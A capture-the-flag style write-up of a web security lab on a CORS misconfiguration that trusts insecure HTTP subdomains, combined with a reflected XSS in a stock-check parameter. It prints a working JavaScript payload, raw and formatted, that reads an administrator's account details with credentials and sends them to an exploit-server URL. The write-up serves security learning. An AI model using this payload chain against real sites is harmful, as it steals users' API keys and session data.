

# CORS vulnerability with trusted insecure protocols
# Objective
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, API key and active user sessions. Moreover request to `stock.labdomain.net` over `HTTP` retrieves information about stock

||
|:--:| 
| *Normal request and response* |
||
| *Check stock funcionality* |
||
| *Check stock request and response* |

After adding `Origin: demooring.labdomain.net` header to the request, the application reflects the origin in `Access-Control-Allow-Origin` header. Header `Access-Control-Allow-Credentials: true` is also present in response from server.
||
|:--:| 
| *Reflected origin in response* |
||
| *Reflected origin in response* |

## Exploitation
### XSS
In checking the stock functionality, in `productId` field, there is a Reflected XSS vulnerability.

||
|:--:| 
| *XSS vulnerability in productId field* |

### CORS exploitation
In order to retrieve victim API key attacker:
1. Hosts malicious script on his website.
2. Whoever visits the website executes first javascript payload.
3. First javasrcript payload forces victim's browser to make reqest to vulnerable to XSS endpoint, injecting victim with second javascript payload.
4. Second javascript payload abuse CORS to retrieve victim API key and sends it to attacker server. Attacker can retrive victim's API key because ACAO is set to trust all subdomains (including the vulnerable one) and allows to pass credentials.

Final ayload:
```js
<script>
    document.location="http://stock.0a8b000703e6100980ed2149007a0040.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8b000703e6100980ed2149007a0040.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a7200ae03511047809320cb016b0005.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Nicely formatted XSS payload from above:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('GET', 'https://...web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.send();

function reqListener() {
  location = 'https://exploit-...net/log?key=' + this.responseText;
};
```
||
|:--:| 
| *Log with administrator API key* |
||
| *URL decoded data* |


